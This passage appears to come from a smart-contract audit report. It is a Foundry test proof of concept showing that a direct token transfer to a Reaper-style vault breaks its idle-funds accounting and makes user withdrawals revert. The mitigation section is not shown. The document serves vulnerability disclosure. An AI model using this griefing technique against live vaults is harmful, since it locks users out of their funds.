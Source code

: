 ```solidity 
        assertEq(initialTotalIdle, 400e18);
        assertEq(initialTokenBalance, 400e18);

        // Direct transfer creates unaccounted funds
        vm.startPrank(attacker);
        assetMock.transfer(address(sut), 200e18);
        vm.stopPrank();

        // Assert accounting mismatch
        // Calculation: totalIdle remains 400e18 (direct transfer doesn't update accounting)
        // Calculation: token.balanceOf(vault) = 400e18 + 200e18 = 600e18 (actual tokens increased)
        uint256 afterTransferTotalIdle = sut.totalIdle();
        uint256 afterTransferTokenBalance = assetMock.balanceOf(address(sut));
        assertEq(afterTransferTotalIdle, 400e18); // totalIdle unchanged
        assertEq(afterTransferTokenBalance, 600e18); // token balance increased
        assertTrue(afterTransferTokenBalance > afterTransferTotalIdle); // Accounting mismatch

        vm.startPrank(user1);
        sut.initiateWithdraw(500e18); // Withdrawal > totalIdle but < actual token balance
        vm.stopPrank();

        skip(sut.cooldownPeriod() + 1);

        // Assert withdrawal conditions
        // Calculation: 500e18 > 400e18 (totalIdle) = true → triggers strategy withdrawal
        // Calculation: 500e18 < 600e18 (actual tokens) = true → vault has sufficient funds
        // Calculation: withdrawMaxLoss = 1 BPS = 0.01% → strict slippage limit
        assertTrue(500e18 > sut.totalIdle()); // Will trigger strategy withdrawal
        assertTrue(500e18 < assetMock.balanceOf(address(sut))); // But vault has enough tokens
        assertEq(sut.withdrawMaxLoss(), 1); // Strict 0.01% slippage limit

        ReaperERC721WithdrawCooldown nft = sut.withdrawCooldownNft();
        uint256 user1TokenId = nft.tokenOfOwnerByIndex(user1, 0);
        
        vm.startPrank(user1);
        // DoS: Withdrawal reverts due to unnecessary strategy losses exceeding slippage limit
        // Calculation: Strategy pulls 100e18 (500-400), reports 5% loss = 5e18
        // Calculation: Slippage limit = 500e18 * 1 BPS / 10000 = 0.05e18
        // Calculation: 5e18 > 0.05e18 → exceeds limit by 100x → reverts
        vm.expectRevert(bytes("Withdraw loss exceeds slippage"));
        sut.withdraw(user1TokenId);
        vm.stopPrank();

        // Assert attacker tokens are stuck
        // Calculation: Attacker never called deposit() → no shares minted → 0 balance
        uint256 attackerShares = sut.balanceOf(attacker);
        assertEq(attackerShares, 0);
    }
```

## Mitigation
